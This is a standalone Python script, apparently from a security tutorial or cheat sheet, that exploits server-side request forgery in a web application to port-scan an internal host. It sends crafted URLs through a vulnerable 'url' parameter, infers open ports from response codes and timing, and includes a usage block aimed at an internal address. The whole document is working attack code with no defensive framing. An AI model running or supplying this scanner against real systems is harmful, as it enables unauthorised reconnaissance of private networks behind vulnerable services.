 ```python
def ssrf_port_scan(target_url, param, host, ports):
    """Scan ports using SSRF"""
    open_ports = []
    
    def scan_port(port):
        try:
            payload = f"http://{host}:{port}/"
            params = {param: payload}
            
            start_time = time.time()
            response = requests.get(target_url, params=params, timeout=10)
            end_time = time.time()
            
            response_time = end_time - start_time
            
            # Analyze response for port status
            if response.status_code == 200:
                if response_time < 5:  # Quick response might indicate open port
                    open_ports.append(port)
                    print(f"[+] Port {port} appears to be open")
            
        except requests.exceptions.Timeout:
            # Timeout might indicate filtered port
            pass
        except Exception as e:
            pass
    
    # Scan ports in parallel
    threads = []
    for port in ports:
        thread = threading.Thread(target=scan_port, args=(port,))
        threads.append(thread)
        thread.start()
    
    for thread in threads:
        thread.join()
    
    return open_ports

# Common ports to scan
common_ports = [21, 22, 23, 25, 53, 80, 110, 143, 443, 993, 995, 3306, 5432, 6379, 8080, 8443, 9200]

# Usage
target = "http://vulnerable-app.com/fetch.php"
parameter = "url"
internal_host = "192.168.1.1"

open_ports = ssrf_port_scan(target, parameter, internal_host, common_ports)
print(f"Open ports on {internal_host}: {open_ports}")
```

